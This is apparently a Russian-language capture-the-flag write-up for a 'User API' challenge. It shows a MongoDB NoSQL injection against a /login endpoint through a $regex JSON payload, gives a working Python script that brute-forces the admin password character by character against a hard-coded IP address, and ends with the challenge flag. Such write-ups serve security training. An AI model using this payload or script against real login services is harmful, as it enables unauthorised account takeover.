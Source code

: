 # User API
Сервер принимает POST запросы с JSON объектом по пути /login . Если отправить JSON с правильным параметром и пустым объектом в значении то вернется ошибка "CastError". Если параметр не существует вернется строка "Wrong". 

Таким образом узнаем что запрос должен содержать два параметра "username" и "password".

Предположим что существует пользователь "admin" и попробуем перебрать его пароль:
```JSON
{"username":"admin","password": {"$regex": "^d" }}
```
В значение пароля передаем объект с регулярным выражением. Если начало пароля совпадает с переданной строкой сервер вернет "Succes".
Значит имеем NoSQL инъекцию в MongoDB.

С помощью скрипта автоматизируем подбор пароля:
```python
from requests import post
import urllib3
import string
urllib3.disable_warnings()

username='admin'
password=''
URL='http://45.131.97.54:3000/login'
H={'content-type': 'application/json'}
finish = False

while not finish:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      payload='{"username": "%s", "password": {"$regex": "^%s" }}' % (username, password + c)
      r = post(URL, data = payload, headers=H, verify = False, allow_redirects = False)
      if 'Success' in r.text:
        password += c
        print('\r[Password]: %s' % (password), end='', flush=True)
        break
else: print()
```

В результате узнаем что пароль содержит флаг

Флаг - deteact{6b78aa0e40fefcabea1cf8076cac7204}